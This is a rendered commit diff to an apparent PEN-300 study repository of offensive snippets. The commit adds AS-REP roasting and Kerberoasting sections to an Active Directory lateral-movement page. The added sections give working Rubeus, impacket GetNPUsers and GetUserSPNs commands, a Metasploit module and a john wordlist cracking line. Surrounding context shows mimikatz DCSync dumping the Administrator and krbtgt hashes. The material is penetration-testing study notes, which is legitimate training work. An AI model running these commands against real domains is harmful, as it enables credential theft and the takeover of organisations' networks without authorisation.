

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Active Directory/Lateral Movement.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Active Directory/Lateral Movement.md
+++ b/Active Directory/Lateral Movement.md
@@ -115,3 +115,33 @@ mimikatz # lsadump::dcsync /user:Administrator
 
 mimikatz # lsadump::dcsync /user:krbtgt
 ```
+
+**AS-REP ROASTING ATTACK:**
+
+This attack works for domain users that have the "DONT_REQ_PREAUTH" property *useraccountcontrol* set.
+```
+# From Rubeus
+C:\> .\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
+
+# Check ASREPRoast for all domain users (credentials required)
+~# impacket-GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]>
+
+# Check ASREPRoast for a list of users (no credentials required)
+~# impacket-GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]>
+
+# Now we will attempt to crack the hashes obtained
+~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
+```
+
+**KERBEROASTING ATTACK:**
+
+The essence of this attack is to crack the encrypted key which was used to generate the TGS from where we extract the encrypted key to crack.
+
+You need valid domain credentials to perform this attack.
+
+```
+~# impacket-getuserspns -request contoso.com/trike:'DevT$st34'@192.168.1.1
+
+msf > use auxiliary/gather/get_user_spns
+```
+For Windows exploitation(manual and automatic) review this link: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
````
